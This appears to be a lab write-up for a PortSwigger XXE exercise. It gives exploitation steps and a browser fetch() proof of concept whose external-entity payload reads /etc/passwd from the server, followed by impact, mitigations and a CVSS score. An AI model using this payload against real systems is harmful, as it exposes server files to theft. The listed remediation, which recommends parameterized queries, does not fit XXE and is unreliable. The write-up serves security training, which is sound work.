

# Description

[**Lab Link**](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

**Lab**: _Exploiting XXE using external entities to retrieve files_

The application allows user to check how much stock is available for a given product for a choosen location.

However, this API endpoint being called is vulnerable to XXE, allowing an attacker to retrieve arbitrary files from the server.

By manipulating / creating a fake request, the attacker can inject XXE payloads into the request and execute them on the server.

# Steps to Exploit

1. Open the lab link in a browser.
2. Go to a product page and open the browser developer tools.
3. Observe the request being made to the `/product/stock` endpoint.
4. Copy the request with preferred network call (fetch / curl / etc).
5. Modify the request body to include an XXE injection payload.

# Proof of Concept 

Type in the Browser Developer Tools:
```js
fetch("/product/stock", {
  "headers": {
    "Content-Type": "application/xml"
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM \"file:///etc/passwd\"> ] ><stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>",
  "method": "POST",
}).then(r => r.text()).then(console.log);
```



# Impact

- Data Leak
- Access to sensitive files on the server

# Mitigation / Remediation

- Sanitize user input
- Use parameterized queries or prepared statements
- Implement proper access controls and authentication mechanisms

# CVSS Justification

```
Base Score: 8.2
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L
```

